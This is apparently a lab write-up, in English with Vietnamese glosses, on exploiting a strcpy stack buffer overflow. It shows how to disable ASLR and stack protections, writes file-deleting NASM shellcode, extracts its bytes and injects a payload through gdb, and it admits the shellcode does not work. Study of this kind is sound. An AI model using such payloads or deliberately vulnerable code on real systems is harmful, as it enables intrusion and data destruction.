

## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code: <br>
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
<br>

**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

<br>

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`

<br>
Run file_del: <br>
`nasm -g -f elf file_del.asm`

<br>

`ld -m elf_i386 -o file_del file_del.o`

<br>


<br>

Run this command to get shellcode from `file_del`:

<br>

`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

<br>


<br>

Use `gdb` to run program:

<br>

`gdb vuln.out -q`

<br>



<br>

break at 2 points: <br>
`0x08048441` <br>
`0x0804846b` <br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")` <br>


<br> Continue: `gdb-peda$ c` <br>


<br> `x/80xb $esp` to check stack <br>

We got some problem in shellcode. It's wrong when running program.
